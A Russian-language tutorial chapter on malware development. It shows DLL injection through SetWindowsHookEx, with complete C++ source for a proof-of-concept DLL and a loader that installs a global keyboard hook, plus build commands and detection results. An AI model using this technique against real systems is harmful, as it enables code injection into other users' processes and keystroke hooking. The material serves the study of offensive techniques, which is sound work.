










\newpage
\subsection{17. классическая DLL-инъекция через SetWindowsHookEx. Простейший вредонос на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ

{width="80%"}    

В этом уроке я рассмотрю DLL-инъекцию с использованием метода `SetWindowsHookEx`.

### SetWindowsHookEx

Давайте рассмотрим пример, демонстрирующий этот метод. Функция `SetWindowsHookEx` устанавливает перехватчик в цепочку хуков, который затем вызывается при возникновении определенных событий. Давайте посмотрим на синтаксис функции:

```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Наиболее важным параметром здесь является `idHook`. Это тип устанавливаемого хука, который может принимать одно из следующих значений:

- `WH_CALLWNDPROC`
- `WH_CALLWNDPROCRET`
- `WH_CBT`
- `WH_DEBUG`
- `WH_FOREGROUNDIDLE`
- `WH_GETMESSAGE`
- `WH_JOURNALPLAYBACK`
- `WH_JOURNALRECORD`
- `WH_KEYBOARD`
- `WH_KEYBOARD_LL`
- `WH_MOUSE`
- `WH_MOUSE_LL`
- `WH_MSGFILTER`
- `WH_SHELL`
- `WH_SYSMSGFILTER`

В нашем случае я буду перехватывать события типа `WH_KEYBOARD`, что позволит нам отслеживать нажатия клавиш.

### Вредоносная DLL

Давайте подготовим нашу вредоносную DLL. Для простоты создадим DLL, которая просто покажет всплывающее окно с сообщением:

```cpp
/*
evil.cpp
Простая DLL для инъекции в процесс
Автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

extern "C" __declspec(dllexport) int Meow() {
  MessageBox(
    NULL,
    "Meow from evil.dll!",
    "=^..^=",
    MB_OK
  );
  return 0;
}
```

Как видите, у нас довольно простая DLL. Функция `DllMain()` вызывается при загрузке DLL в адресное пространство процесса. Также есть экспортируемая функция `Meow()`, которая просто показывает всплывающее сообщение *"Meow from evil.dll!"*.

### пример. простой вредоносный код.

Далее нам нужно создать наш вредоносный код. Давайте посмотрим исходный код:
```cpp
/*
hack.cpp
DLL-инъекция через SetWindowsHookEx
автор: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/25/malware-injection-7.html
*/
#include <windows.h>
#include <cstdio>

typedef int (__cdecl *MeowProc)();

int main(void) {
  HINSTANCE meowDll;
  MeowProc meowFunc;
  // загружаем вредоносную DLL
  meowDll = LoadLibrary(TEXT("evil.dll"));

  // получаем адрес экспортированной функции из вредоносной DLL
  meowFunc = (MeowProc) GetProcAddress(meowDll, "Meow");

  // устанавливаем хук - используя действие WH_KEYBOARD
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, 
  (HOOKPROC)meowFunc, meowDll, 0);
  Sleep(5*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

Это также довольно просто. Прежде всего, мы вызываем `LoadLibrary`, чтобы загрузить нашу вредоносную DLL:    

{width="80%"}    

Затем мы вызываем `GetProcAddress`, чтобы получить адрес экспортированной функции `Meow`:    

{width="80%"}    

После этого наш вредоносный код вызывает самую важную функцию - `SetWindowsHookEx`. Параметры, передаваемые в эту функцию, определяют, что именно она будет делать:   

{width="80%"}    

Как видно, при каждом событии клавиатуры будет вызываться наша функция. Мы передаем адрес нашей экспортированной функции - параметр `meowFunc`. Также мы передаем дескриптор нашей DLL - параметр `meowDll`. Последний параметр `0` указывает, что мы хотим установить глобальный хук для всех программ, а не только для одной конкретной.    

Затем мы вызываем `Sleep`:

{width="80%"}    

чтобы продемонстрировать, что наш хук работает.

Затем вызываем функцию `UnhookWindowsHookEx()`, чтобы убрать ранее установленный хук `WH_KEYBOARD`:  

{width="80%"}    

Теперь, когда мы разобрались с кодом вредоносной программы, мы можем протестировать его.    
Сначала скомпилируем вредоносную DLL:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}    

Компилируем код вредоносной программы:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{width="80%"}    

Затем проверяем всё в действии! Запускаем наш `hack.exe` на целевой машине (Windows 7 x64):
```cmd
.\hack.exe
```

{width="80%"}    

Мы видим, что всё выполнено успешно, и на этом этапе при запуске программы наше всплывающее сообщение появляется только при нажатии клавиши на клавиатуре.

### Заключение

В этом разделе я продемонстрировал, как мы можем использовать функцию `SetWindowsHookEx` для внедрения DLL в адресное пространство процесса и выполнения произвольного кода внутри него.    

Однако есть одно предостережение. Этот метод не работает на моей машине с Windows 10 x64. Я думаю, причина в следующем: CIG блокирует этот метод. Windows 10 x64 имеет два важных механизма:

- **CFG (Control Flow Guard)** – предотвращает косвенные вызовы на неразрешённые адреса.
- **CIG (Code Integrity Guard)** – разрешает загрузку в память процесса только модулей, подписанных Microsoft/Microsoft Store/WHQL.    

В [этой](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf) презентации с BlackHat USA 2019 авторы объясняют, что CIG блокирует этот метод.    

Давайте загрузим наш `hack.exe` на virustotal:

{width="80%"}    

[https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921](https://www.virustotal.com/gui/file/273e191999eb6a4bc010eeaf9c4e196d917509250f87a121fa1cfeded41b7921)    

**Итак, 5 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[SetWindowsHookEx](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)    
[Using Hooks MSDN](https://docs.microsoft.com/en-us/windows/win32/winmsg/using-hooks)    
[Exporting from a DLL](https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=msvc-170)        
[исходный код на Github](https://github.com/cocomelonc/2021-11-24-malware-injection-7)    
